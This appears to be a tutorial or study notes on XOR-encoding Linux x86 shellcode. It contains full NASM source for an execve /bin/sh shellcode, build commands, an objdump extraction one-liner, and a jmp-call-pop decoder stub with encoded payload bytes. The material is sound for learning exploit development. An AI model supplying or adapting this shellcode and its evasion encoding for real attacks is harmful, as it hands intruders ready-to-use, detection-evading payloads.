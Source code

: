 # XOR Encoder

## Basic XOR Encoding/Decoding
```ASM
(A XOR B) XOR B = A
```

## XOR Encoding Process
#### 1) Create execve_04_sh_stack.nasm file
```ASM
global _start

section .text

_start:

	xor eax, eax			; Preparing Nulls in EAX register
	push eax			; Pushing the first Null DWORD
	
	push 0x68732f6e			; //bin/sh in reverse order
	push 0x69622f2f
	
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	
	; syscall()
	mov al, 0xb
	int 0x80
```

#### 2) Compile it
```bash
$ nasm -f elf32 -o execve_04_sh_stack execve_04_sh_stack.nasm
$ ld -o execve_04_sh_stack execve_04_sh_stack.o
```

#### 3) Extract shellcode from the binary
```bash
# This will only outputs the shellcode with copy and paste friendly format
# https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump

objdump -d ./PROGRAM | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

#### 4) XOR the extracted shellcode
```bash
https://github.com/bigb0sss/XOREncoder

./XOREncoder.py -s "<Shellcode>" -k "<Key>"
```

#### 5) Create a NASM file with XOR encoded shellcode
```asm
global _start

section .text

_start:

        jmp short call_decoder        ; JMP to "call_decoder" 

decoder:

        pop esi                       ; POPing "shellcode" on the ESI register 
        xor ecx, ecx                  ; Zero out ECX
        mov cl, 25                    ; Moving 25 (Lenght of the "shellcode") to C low
      
decode_loop:

        xor byte [esi], 0xAA          ; XORing wiht Key (= 0xAA)
        inc esi                       ; Increase ESI by one
        loop decode_loop              ; Looping "decode_loop" for 25 time
        jmp short shellcode           ; JMP to the decoded  "shellcode"

call_decoder:

      call decoder                    ; CALL "decoder"
      shellcode: db 0x9b, 0x6a, 0xfa, 0xc2, 0x85, 0x85, 0xd9, 0xc2, 0xc2, 0x85, 0xc8, 0xc3, 0xc4, 0x23, 0x49, 0xfa, 0x23, 0x48, 0xf9, 0x23, 0x4b, 0x1a, 0xa1, 0x67, 0x2a
```

#### 6) Compile it
```bash
$ nasm -f elf32 -o xor_01_sh_loop xor_01_sh_loop.nasm
$ ld -o xor_01_sh_loop xor_01_sh_loop.o
```

